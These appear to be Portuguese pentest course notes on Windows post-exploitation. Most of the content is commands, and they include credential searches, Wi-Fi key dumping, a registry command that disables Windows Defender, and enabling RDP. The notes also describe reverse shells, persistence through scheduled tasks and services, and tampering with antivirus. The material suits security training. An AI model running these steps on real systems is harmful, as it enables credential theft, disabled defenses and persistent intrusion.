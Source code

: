 
						



@@@@@@@@@@@@@ AULA 1 @@@@@@@@@@@@@

WINDOWS

buscar na ávore por arquivos q contanham as expressões

dir /s /a /b *pass*==*cred*==*vnc*==*unatt*==*.config*
lista até os ocultos

criar / deletar pasta

md    cria

rd 	deleta

rd /s /q apaga as subpastas e não pede permissão

xcopy /e copia todos os arquivos e diretórios
xcopy /s copia todos os arquivos e diretorios exceto os vazios
xcopy "aula 1 windowns.txt" Documents\
xcopy /F "aula 1 windowns.txt" aula.txt



type ====lista o conteudo do arquivo

ren ==== renoemeia o arquivo

move

fc ==== compara e mostra diferença entre dois arquivos
fc "aula 1 windowns.txt" aula.txt

whoami   mostra o nome do usuario e dominio atual

tree /f === lista a arvore de diretorios com os arquivos

runas /user:desktop-096icii\ruan "cmd.exe /c echo 1 > 1.txt"
executa um comando como outro usuário, porém precisa de confirmação de senha, 
pois não passa por parâmetro, se executar de um terimal sem interatividade, irá perder o terminal. 

===LENDO ARQUIVOS
type "aula 1 windowns.txt" | sort > aula.txt
lê o conteudo, ordena e sobrescreve a saída no arquivo escolhido
type "aula 1 windowns.txt" | sort >> aula.txt
lê o conteudo, ordena e acrescenta a saída no arquivo escolhido

OBS: attrib +R +S +H +A e outros, atribuir o +S deixa o arquivo oculto e como de sistema, 
que não pode ser deletado de forma fácil

senha=1234
password=4321

=====buscar expressão em arquivos
findstr /spin /c:"password" /c:"senha" *.* 2>null

systeminfo, permite ver quais hotfix estão instalados e caso um mais atual estaja faltando 
já pode ser fonte de um exploit 

taskkill - mata processo, muito usado para matar processo q está travando porta que estava sendo explorada
e o terminal foi perdido,  /o descobre qual a porta está sendo usada

powercat.ps1 === usado para shell reverso

schstack === agendador de tarefas do windows, pode agendar execução de scripts maliciosos durante a inicialização ou
de tempos em tempos usado para cria persistencia, shell reverso, terminal sempre será executado em background, já um bat
 pode aparecer a execução para o usuário, pode ser um .bat q chama o terminal e já executa alguns comandos nesse terminal
, ocorrerá em background

vc pode criar uma tarefa que execute um bat que vai baixar da máquina atacante ou mandar o shell acada minuto
pode criar uma tarefa para manter percistência como "system" é o maior previlégio do windows, uma maneira de 
fazer isso é chamar o powercat.ps1 da máquina atacante para a alvo


@@@@@@@@@@@@@@@@@ AULA 2 @@@@@@@@@@@@@@@@@

executar alguma tarefa com o "runas" usanso algum usuario q nunca logou na máquina 
o arquivo "profile" vai estar vazio, logo as execuções ocorreram em background

====ESCALAR PRIVILÉGIOS====

Se encontrarmos uma tarefa agendada executando algum programa que eu tenho permissão
para editar, posso tentar modificar o programa que está sendo executado, para tentar executar um
programa malicioso (Escalar privilegio).
* Podemos utilizar o comando de criar uma tarefa agendada para tentar um ataque de força
bruta em algum usuário da máquina (Escalar privilegio).

para desabilitar em antivirus
tentar renomear os arquivos (de .exe para .rar, por exemplo) do antivírus na pasta em
"Arquivos de programas".
======================

verificar programas rodando "sc query", "sc qc NOME_DO_SERVIÇO" e variantes:
o objetivo é verifiar onde estão localizados os executáveis dos serviços, 
quem executa "ex: SYSTEM" e quando executa "ex: AUTO_START", são possibilidades 
para estabelecer persistência, podendo substituir algum ou criando uma nova tarefa 
com "sc create".
EXEMPLO:
sc create "nome_do_serviço" binPath= "caminho_do_executável" DisplayName=
"descrição_do_serviço" obj= "usuário_que_executará" password= "senha_do_usuário": Criar
um novo serviço.

obj=.\LocalSystem , usado para escalar previlégio e persistir algum backdoor 

• Se encontrarmos um serviço com permissão de edição, podemos modificar o caminho
do executável que o serviço executa, forçando ele a executar um programa malicioso
(Escalar privilégio)

• Se encontrarmos um programa que está sendo executado por um serviço e que meu
usuário tenha permissão para substituir esse programa, posso colocar um programa
malicioso nesse path. (Escalar privilegio).

BIZU: no windows o arquivo profile dos usuárioa armazenam muitas senhas.

==============REUSO DE SENHA:
OBTER SENHA DE ALGUM WIFI
"netsh wlan show profiles"
netsh wlan show profiles name="nome_da_rede" key=clear
pode ser que esse usuário reutilize essa senha em outros sistemas, é uma opção

==========LOCAIS DO WINDOWS Q ARMAZENAM SENHAS:
As principais chaves do registro ficam salvas no diretório "C:\Windows\System32\config".
DEFAUT
SAM
SECURITY
SOFTWARE
SYSTEM
é interessante navegar até os ultimos diretorios para achar o valor, esses arquivos
só consegue ser lidos pelo editor de registro do windows
BIZU: Através do registro do Windows, é possível mudar o comportamento padrão de
alguns programas do Sistema Operacional, assim como é possível conseguir algumas
informações importantes, como versão de programas, senhas, etc.

======= UTILIDADES DO REGISTRO========
+++EXEMPLO 1++++
reg query HKLM /f password /t REG_SZ /s: Comando para buscar pela string "password" dentro
da chave HKLM.

+++EXEMPLO 2+++
CASO NA MÁQUINA ALVO POSSUA O PUTTY INSTALADO ACHO OS IPS ACESSADOS, POTENCIAIS ALVOS:
reg query "HKCU\Software\SimonTatham\PuTTY: Comando para ver detalhes de conexões
realizadas com o programa putty.
+++EXEMPLO 3+++
CAUSAR FALHA EM UM SOFTWARE, DESABILITAR DEFENDER VIA REGISTRO
reg add "HKLM\software\policies\microsoft\windows defender" /v Disableantispyware /t
reg_DWORD /D 1 /F: Comando para desabilitar o Windows defender, utilizando chaves
de registro.

+++EXEMPLO 4+++
CASO QUEIRA COPIAR OS REGISTROS PARA ANALISE POSTERIOR
reg save chave\subchave\subchave arquivo_de_saida: Copiar chaves de registro para um
arquivo (com extensão .hiv).

+++EXEMPLO 5+++
=======HABILITAR  via registro
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"
/v fDenyTSConnections /t REG_DWORD /d 0 /f



